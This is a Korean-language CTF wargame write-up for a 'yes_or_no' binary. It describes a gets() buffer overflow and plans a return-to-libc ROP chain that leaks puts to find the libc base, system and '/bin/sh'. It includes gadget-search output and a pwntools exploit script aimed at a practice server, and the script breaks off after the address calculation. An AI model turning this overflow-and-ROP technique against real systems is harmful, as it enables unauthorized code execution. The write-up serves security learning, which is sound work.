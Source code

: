 ```c
kimdong@ubuntu  ~/Wargame  ./yes_or_no
Show me your number~!
9830400
That's cool. Follow me
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    3364 segmentation fault (core dumped)  ./yes_or_no
```
다음과 같이 9830400이라는 값을 넣으면 That's cool이라는 문자열이 나오고 gets로 문자열을 받기 때문에, 길이값을 검증하지 않는다.<br>
NX비트가 설정되어 있으므로, 쉘코드는 사용이 불가하고, rop gadget을 통해 익스플로잇을 해야할것 같다.<br>
일단, libc의 base address를 구하고, system함수의 주소를 구한뒤에 `/bin/sh` 문자열을 입력하여 쉘을 띄워야할것같다.<br>
libc의 `base address`를 구하기 위해서는 puts()의 주소에서 offset을 빼면 `libc_base`를 구할수있다.<br>
그후에, system과 /bin/sh의 offset을 구한뒤에, libc_base에 더해 실제 주소를 구하면 된다.<br>

puts() 함수는 인자가 하나이므로 pop rdi ; ret ; 가젯이 필요하다.<br>

```c
kimdong@ubuntu  ~/Wargame  ./rp-lin-x64 -f yes_or_no -r 1 |grep "pop rdi"
0x00400883: pop rdi ; ret  ;  (1 found)
kimdong@ubuntu  ~/Wargame  ./rp-lin-x64 -f yes_or_no -r 1 |grep "ret"
0x0040056e: ret  ;  (1 found)
```

가젯을 구했으니, puts()를 통해 libc_base주소를 구한뒤에, main문으로 돌아와서 다시 payload보내는 식으로 진행할 예정이다.<br>

---

## Exploit Code

from pwn import *
p = remote ("ctf.j0n9hyun.xyz",3009)
e = ELF("./yes_or_no")
libc = ELF("./libc-2.27.so")
puts_plt = e.plt["puts"]
puts_got = e.got["puts"]
main = e.symbols["main"]

puts_offset = libc.symbols["puts"]
system_offset = libc.symbols["system"]
binsh_offset = list(libc.search('/bin/sh\x00'))[0]

pr = 0x400883
r = 0x40056e
dummy = "a"*26

payload1 = dummy
payload1 += p64(pr)
payload1 += p64(puts_got)
payload1 += p64(puts_plt)
payload1 += p64(main)

p.sendline("9830400")
p.recvuntil("Follow me\n")
p.sendline(payload1)
puts_addr = u64(str(p.recv(6))+'\x00\x00')
print hex(puts_addr)
libc_addr = puts_addr - puts_offset
system_addr = libc_addr + system_offset
binsh_addr = libc_addr + binsh_offset
p.sendline("9830400")
p.recvuntil("That's cool. Follow me\n")
